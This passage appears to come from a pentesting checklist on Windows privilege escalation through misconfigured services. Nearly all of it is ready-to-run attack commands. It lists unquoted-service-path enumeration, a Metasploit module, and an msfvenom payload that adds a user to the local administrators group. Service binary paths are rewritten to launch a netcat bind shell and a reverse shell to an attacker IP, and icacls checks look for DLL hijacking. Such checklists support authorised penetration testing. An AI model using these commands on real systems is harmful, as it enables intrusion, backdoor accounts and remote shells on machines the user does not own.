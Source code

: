        gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '*'} | select PathName,DisplayName,Name
       
       # find them using msf 
       exploit/windows/local/trusted_service_path
       
       # generate service binary with msfvenom
       msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
      ```
  *   [ ] &#x20;Change service binary path

      ```
       # if the group "Authenticated users" has SERVICE_ALL_ACCESS
       # it can modify the binary path
       
       # bind shell
       sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
       
       # reverse shell
       sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe <attacker-ip> 4444 -e cmd.exe"
       
       # add user to local admin group
       sc config <Service_Name> binpath= "net localgroup administrators username /add"
       
       # example using SSDPRV
       sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
       
       # then restart the service
       wmic service NAMEOFSERVICE call startservice
       net stop [service name] && net start [service name]
      ```
  *   [ ] &#x20;DLL Hijacking / Overwrite service binary

      ```
       for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

       for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
       